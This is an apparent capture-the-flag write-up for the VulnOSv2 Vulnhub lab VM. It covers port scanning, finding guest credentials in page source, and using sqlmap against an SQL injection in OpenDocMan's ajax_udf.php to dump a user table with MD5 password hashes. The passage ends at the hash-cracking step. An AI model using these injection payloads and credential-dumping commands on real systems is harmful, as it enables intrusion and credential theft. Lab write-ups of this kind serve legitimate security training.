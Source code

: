 ###### Description: Writeup of VulnOSv2 VM in Vulnhub by the author c4b3rw0lf

Let's begin by scanning the host: 

```
# nmap -A -T4 -sV -PN -p- 192.168.0.15

Nmap scan report for 192.168.0.15
Host is up (0.00022s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
| 2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.40%I=7%D=5/20%Time=573F2008%P=x86_64-pc-linux-gnu%r(NULL
SF:,2B,"SSH-2\.0-OpenSSH_6\.6\.1p1\x20Ubuntu-2ubuntu2\.6\r\n");
MAC Address: 08:00:27:57:4F:AA (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.40%E=4%D=5/20%OT=22%CT=1%CU=39556%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=573F2056%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=8
OS:)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4
OS:ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1
OS:=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O
OS:=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: irc.example.net

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.0.15

OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1041.99 seconds
```

So we discovered it has the following services running:
- SSH (22/TCP)
- HTTP (80/TCP)
- IRCd (6667/TCP)

Firing up the browser we encounter a black screen pointing us to http://192.168.0.15/jabc/. 

Following this link we reach another page called "JBC Just Another Bioware Company". Not many interesting stuff here so I decided to have a look at the website source code. 

Poking around some pages I've found /jabc/modules/system/ with apache index enabled, with many many files:

```
Index of /jabc/modules/system
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	html.tpl.php	2016-04-16 15:17 	2.7K	 
[ ]	image.gd.inc	2016-04-16 15:17 	12K	 
[ ]	language.api.php	2016-04-16 15:17 	6.4K	 
[ ]	maintenance-page.tpl.php	2016-04-16 15:17 	2.9K	 
[ ]	page.tpl.php	2016-04-16 15:17 	6.8K	 
[ ]	region.tpl.php	2016-04-16 15:17 	1.3K	 
[TXT]	system.admin-rtl.css	2016-04-16 15:17 	1.4K	 
[TXT]	system.admin.css	2016-04-16 15:17 	5.0K	 
[ ]	system.admin.inc	2016-04-16 15:17 	113K	 
[ ]	system.api.php	2016-04-16 15:17 	193K	 
[ ]	system.archiver.inc	2016-04-16 15:17 	3.0K	 
[TXT]	system.base-rtl.css	2016-04-16 15:17 	869 	 
[TXT]	system.base.css	2016-04-16 15:17 	5.2K	 
[ ]	system.cron.js	2016-04-16 15:17 	489 	 
[ ]	system.info	2016-04-16 15:17 	462 	 
[ ]	system.install	2016-04-16 15:17 	112K	 
[ ]	system.js	2016-04-16 15:17 	4.6K	 
[ ]	system.mail.inc	2016-04-16 15:17 	4.5K	 
[TXT]	system.maintenance.css	2016-04-16 15:17 	811 	 
[TXT]	system.menus-rtl.css	2016-04-16 15:17 	551 	 
[TXT]	system.menus.css	2016-04-16 15:17 	2.0K	 
[TXT]	system.messages-rtl.css	2016-04-16 15:17 	176 	 
[TXT]	system.messages.css	2016-04-16 15:17 	961 	 
[ ]	system.module	2016-04-16 15:17 	137K	 
[ ]	system.queue.inc	2016-04-16 15:17 	12K	 
[ ]	system.tar.inc	2016-04-16 15:17 	62K	 
[ ]	system.test	2016-04-16 15:17 	108K	 
[TXT]	system.theme-rtl.css	2016-04-16 15:17 	811 	 
[TXT]	system.theme.css	2016-04-16 15:17 	3.6K	 
[ ]	system.tokens.inc	2016-04-16 15:17 	7.9K	 
[ ]	system.updater.inc	2016-04-16 15:17 	4.6K	 
[ ]	theme.api.php	2016-04-16 15:17 	8.8K

```
All TXT files are basically CSS files, not too important information there, so I continued browsing through JABS products and found the page: /jabc/?q=node/7.

Inspecting the source I found the following lines: 
```
<p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
<p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
<p><span style="color:#000000">Thank you.</span></p>
```

Now we've got a new link called /jbacd0cs/ and also some guest/guest credentials. Accessing the URL in question it gets us to a page called "opendocman".

Using the guest/guest credentials it was possible to log into the application.

We are presented with something like a database administration but with guest privileges.

First I've tried to upload a simple test.php file with a print inside, but I've got the error message: 

```
MIMETYPE: text/x-php Failed
```

So we can assume that the system is blocking PHP files. So I started looking for exploits for "OpenDocMan v1.2.7" version in use. I've found in www.exploit-db.com the following exploit: 

https://www.exploit-db.com/exploits/32075/

Analyzing the exploit we can see that it is an SQL Injection and is related to a insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" script. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.
 
Let's fire up sqlmap using the value in question and see what databases we can find:

```
# sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' --dbs

... snip ...

[22:56:29] [INFO] resuming back-end DBMS 'mysql' 
[22:56:29] [INFO] testing connection to the target URL
[22:56:29] [INFO] heuristics detected web page charset 'ISO-8859-2'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: add_value (GET)
    Type: UNION query
    Title: MySQL UNION query (86) - 9 columns
    Payload: q=1&add_value=odm_user UNION ALL SELECT 86,CONCAT(0x71716a6a71,0x6677646748424473794d5952474d4977574c6a4447526b65667267776852736c6f556f7967795a52,0x71706b7171),86,86,86,86,86,86,86#
---
[22:56:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5
[22:56:29] [INFO] fetching database names
[22:56:29] [INFO] heuristics detected web page charset 'windows-1252'
[22:56:29] [WARNING] reflective value(s) found and filtering out
available databases [6]:
[*] drupal7
[*] information_schema
[*] jabcd0cs
[*] mysql
[*] performance_schema
[*] phpmyadmin

```

After some sqlmap we can see that we are fetching information from a MySQL Database server, and we've found interesting tables here, including phpmyadmin, which may be used to administer the database. 

Let's try to see the tables for the "jabcd0cs" database first:

```
# sqlmap -u 'http://192.168.0.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' --dbs --tables
```
The output is huge so I won't be posting here, BUT, analyzing all the databases we've got, I found one called "odm_user" which appears to be the table responsible for the user's credentials.

Let's try to dump the contents (rows) of this table: 

```
./sqlmap.py -u 'http://192.168.0.15/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' --dbs -T odm_user --dump

... snip

Database: jabcd0cs
Table: odm_user
[2 entries]
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| id | phone       | Email              | username | password                                 | last_name | first_name | department | pw_reset_code |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| 1  | 5555551212  | webmin@example.com | webmin   | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
| 2  | 555 5555555 | guest@example.com  | guest    | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+

...snip
```

Notice that one of the users is "webmin". Once we have the hash we can try to discover what kind of hash it is, by using hash-identifier: 

```
# hash-identifier

... snip ...

 HASH: b78aae356709f8c31118ea613980954b

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

So let's do the cracking in an easy way, throwing the hash into google.

